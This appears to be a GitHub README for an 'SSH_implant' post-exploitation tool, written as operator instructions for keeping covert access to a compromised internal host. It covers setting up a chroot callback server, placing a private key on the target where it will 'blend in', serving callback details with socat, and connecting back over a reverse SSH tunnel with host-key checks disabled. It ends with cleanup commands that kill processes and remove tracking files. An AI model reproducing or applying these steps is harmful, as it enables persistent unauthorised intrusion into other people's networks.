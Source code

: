 # SSH_implant
<h3>Purpose</h3>
Post Exploitation action after accessing an internal target in a network. Enables future access to an internal targets ssh server (Internal target must be able to access the internet)
<h5>Step One</h5>
Setup chroot and user on Opstation, use chroot_setup.sh
<h5>Step Two</h5>
<h3>On Target</h3> <br />
#Verify target can reach the CHK_IP <br />
ping -c 1 [CHK_IP] <br />
#Verify target has nc with the following options: -z, -n, -w <br />
which nc netcat wget perl <br />
	//is the wget option viable? <br />
#Verify target has SSH <br />
which ssh <br />
#netstat or ss? <br />
	//adjust "implant_script.sh" as needed <br /><br />
<h3>On Opstation</h3> <br />
#Create ssh key <br />
ssh-keygen <br />
	//Remove [user]@[hostname] from pubkey and add key to chroot users .ssh/authorized_keys <br />
		cat [pubkey] | cut -d " " -f 1,2 >> [chroot_user_home]/.ssh/authorized_keys <br />
#Put ssh privkey on target, try to make location blend in <br />
	likely will use scp or ssh-cat to get it up to target. Depending on access method <br />
#Configure "implant_script.sh" variables. See "Implant Variables Defined" section <br />
<h3>To Connect</h3>
//CHK_PORT must be open on a CHK_IP

#On a CHK_IP from Implant script <br />
//Create/edit info.sh  *info.sh either needs to be on the CHK_IP or a tunnel needs to be setup forwarding to the device info.sh is on* <br />
cat \<\<EOF\>info.sh <br />
echo -n "[CB_PORT]:[CB_IP]:[REMLIS]" <br />
EOF <br />
chmod +x info.sh <br />
socat -d -d TCP-LISTEN:[CHK_PORT],fork,reuseaddr system:/path/to/info.sh <br /> <br />

//Initial Connection <br />
ssh -M -S /tmp/[target] -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p [REMLIS] [user]@127.0.0.1 <br /><br />

//Getting an additional terminal <br />
ssh -S /tmp/[target] [user] <br /> <br />

//Tunnel manipulation using an existing socket <br />
ssh -S /tmp/[target] [user] -O [forward|cancel|exit} -[L|R] [tunnel_ip]:[tunnel_port]:[forward_ip]:[forward_port] <br /><br />

****SUPER IMPORTANT STEP**** <br />
//After connecting you will have no more than 2min from the establishment of the Remote listener you connected to to do the following <br />
ps -efH <br />
kill -9 [PID_of_Sleep_Cmd] <br /> <br />

//Note <br />
The sleep time can be adjusted to more than 2min when initially implanting or afterward by editing the script on target but is not recommended <br />

<h3>Exiting</h3>
//Must exit with the following <br />
rm -f [TRACK_FILE] && kill -9 [PID_OF_SSH_CONNECTION] <br />

